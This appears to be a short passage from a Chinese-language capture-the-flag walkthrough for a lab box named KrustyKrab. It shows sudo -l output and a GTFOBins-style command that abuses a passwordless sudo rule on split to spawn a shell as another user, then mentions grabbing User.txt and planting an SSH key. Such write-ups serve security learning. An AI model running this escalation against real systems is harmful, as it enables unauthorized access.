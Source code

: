 ```
www-data@KrustyKrab:/var/www/html/finexo/admin_dashborad$ sudo -l
sudo -l
sudo: unable to resolve host KrustyKrab: Temporary failure in name resolution
Matching Defaults entries for www-data on KrustyKrab:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User www-data may run the following commands on KrustyKrab:
    (KrustyKrab) NOPASSWD: /usr/bin/split
```

可以看到存在以**KrustyKrab**身份运行**split**命令

- [split | GTFOBins](https://gtfobins.github.io/gtfobins/split/#sudo)

```
sudo -u KrustyKrab /usr/bin/split --filter=/bin/sh /dev/stdin
```

![](./images/image-346.png)

拿到**User.txt**

![](./images/image-347.png)

写入**ssh**密钥进行登录
